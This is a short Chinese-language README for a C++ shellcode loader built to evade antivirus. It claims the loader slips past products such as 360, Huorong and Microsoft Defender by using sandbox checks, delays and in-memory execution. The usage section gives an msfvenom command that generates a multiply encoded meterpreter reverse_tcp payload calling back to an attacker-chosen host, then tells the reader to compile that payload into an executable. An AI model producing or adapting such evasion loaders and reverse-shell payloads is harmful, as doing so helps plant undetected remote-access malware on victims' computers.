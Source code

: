 ## c++免杀

此免杀加载器本身未做任何编码，只加了cpu核心数检测、延时、内存加载，直接使用cs和msf默认payload会被检出，所以推荐配合msf多重编码使用，可以达到非常好的免杀效果。

如有需要可以自行加一些编码、异或、加解密操作对shellcode进行处理。

### 1、目前免杀情况
实机测试可过360、火绒

沙箱可过360、火绒、小红伞、微软、江民、瑞星等--2022.8.16

### 2、使用方法

1)使用msf多重编码生成payload，例如

```
msfvenom -p  windows/x64/meterpreter/reverse_tcp lhost=xxx.xxx.xxx.xxx lport=xxxx -a x64 --platform windows -e x64/zutto_dekiru -i 4 -f raw | msfvenom -a x64 --platform windows -e x64/zutto_dekiru -i 4 -f c -o 123.c
```

2)将shellcode 替换cpp文件中的test变量，执行gcc .\memshellSleepCpu.cpp -o 123.exe -lstdc++生成exe


